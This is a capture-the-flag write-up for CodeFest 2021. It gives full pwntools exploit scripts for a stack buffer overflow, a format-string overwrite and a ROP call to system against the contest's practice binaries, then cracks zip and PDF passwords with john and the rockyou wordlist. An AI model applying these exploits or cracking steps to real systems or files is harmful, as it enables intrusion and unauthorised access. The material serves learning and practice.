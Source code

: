 # WriteUp for CodeFest
###### tags: `pwn` `ctf` `easy` `beginner`

These will include the challenges I was able to do in the last 2 hours of the 24 hour ctf @ CodeFest 2021. I was able to solve the entire pwn category which was easy and beginner friendly and one forensics challenge which was very practical and straight-forward.

# Pwn Category

## C is Hard

#### [Download files from here](https://github.com/not-duckie/RandomPwn/tree/master/ctf21/C_is_hard)

This was the first challenge which has stack overflow vulnerability and the goal was to overflow the buf and call a hidden function called print_flag.

Let's start by analyzing the function in radare2.

```auto
r2 -R'stdin=input.txt' ./source_fixed.
```

![](https://i.imgur.com/4FEEWxS.png)

So our target is to go to the `sym.print_flag` as it will get us the flag. So how we can jump to the function. Lets start by analyzing the `sym.vuln` function.

![](https://i.imgur.com/VcWQQvr.png)

The function seems simple: we overflow the buffer s (i.e rbp-0x20 \[check top of the function\]). So after we give 0x20 bytes we will get to rbp and then rip. Thus our exploit will look like this:-

```python
from pwn import *


padding = b'i'*0x20
flag = p64(0x4011b6)

payload = padding
payload += b'A'*0x8
payload += flag

#p = process('./source_fixed')
p = remote('chall.codefest.tech',8780)
p.recvline()
p.sendline(payload)
p.interactive()
```

and we get our first flag as:-
codefest{overflowing_stacks_for_flags_and_fun_768999766}

## Take Me to Cafe
#### [Download files from here](https://github.com/not-duckie/RandomPwn/tree/master/ctf21/take_me_to_cafe)


This challenge is format string vulnerability in which we will have to overwrite a variable to value 0xcafe in order to get the flag and then finally go to the pawry(hidden joke in challenge :P).

start by analyzing the function:-

```auto
r2 -R'stdin=input.txt' ./format
```

![](https://i.imgur.com/hO4whEy.png)

![](https://i.imgur.com/nmmVc7b.png)

We see that the function sym.print_flag is called if the `cmp eax, 0xcafe` is passed. So all we need to do is move the value 0xcafe to ebx+0x44 so it is moved to eax and then we pass the cmp and get the flag.

The vulnerability as hinted by the binary name and the confirmed from the source code is format string. With this we can write any value to any address with the help of %n parameter.

%n basically write the number of bytes printed to screen so far to a given address.

Let's start by determining where our first argument lands on the stack. Send the input
```
aaaabbbbcccc%lx %lx...
```
repeat the %lx until you see the aaaa in hex.

![](https://i.imgur.com/wj92pSQ.png)

we see that our aaaa lands as the 4th argument on the stack. Confirm it by testing it again.

![](https://i.imgur.com/M36tQuF.png)

Now all we need to overwrite the cmp to pass it and get the flag shown we found earlier. Thus the exploit will look like this.

The exploit basically writes a number to a given address that is 0x804c044. It takes some hit and trial to find the correct value to write but start with int(0xcafe) and adjust accordingly.

```python=
from pwn import *

padding = b'i'*88

addr = p32(0x804c044)

payload = addr + b"%51962d%4$hn"

#p = process('./format')
p = remote('chall.codefest.tech',8744)
print(p.recvuntil('will go\n'))
p.sendline(payload)
p.interactive()
```
And we get the flag along with the meme reference.
![](https://i.imgur.com/DHieiRo.png)


## Welcome to the Pawry

Welcome the pawry is a simple rop challenge. We get a buffer overflow, string in binary "/bin/cat flag.txt" and system call and we need to create a rop chain to get the flag.

The challenge is straightforward so the exploit should be self explanatory.

```python=
from pwn import *


# 24 + ebp + eip

padding = b'i'*28

binCat = p32(0x804c028)
system_call = p32(0x8049214)


payload = padding + system_call + binCat

p = process('./pawry')
#p = remote('chall.codefest.tech',8686)
p.recvuntil('.')
p.sendline(payload)
p.interactive()

```

# Forensics

## Anime is Love <3
#### [Download files from here](https://github.com/not-duckie/RandomPwn/tree/master/ctf21/animeIsLove)

This was a good forensics challenge that required a little bit of manual work. I liked it alot. The challenge starts with the given prompt.

![](https://i.imgur.com/GjtltNN.png)

So start by analyzing the hexdump of the image and find that there is flag.txt at the end of the image.

![](https://i.imgur.com/nFL08k5.png)

So let's extract it. The jpg files usually end with FFD9 byte. We extract everything after that in file called foo.

```
dd if=anime.jpg of=tmp bs=1 skip=362196
```

Here skip the address of the line where we found the ending byte in int (0x586D4).

###### Note
```=
i am using ghex and my hex editor.
```

![](https://i.imgur.com/TATw0ud.png)

After cleaning up the file by removing extra bytes that may have been copied and fixing the magic byte of the zip file (i.e 50 4B). And we have a clean zip file.

When we try to open it we find it has a password protection. So convert it to hash and brute force it with john.

```bash=
zip2john tmp.zip > hash
john --wordlist=~/rockyou.txt hash
```

We find the password as dragonballz. But the picture was of naruto ? wtf.

The flag.txt is a pdf file which when opened with the viewer opens weird. So lets repair it with foremost and try it again.

```=
foremost flag.txt
```
Now when it opens it, it asks for a password.

```
pdf2john 00000.pdf > hash
john --wordlist=~/rockyou.txt hash
```

The password is naruto and we get the flag.

codefest{y0u_4r3_g00d_4t_m4g1c_byt35}
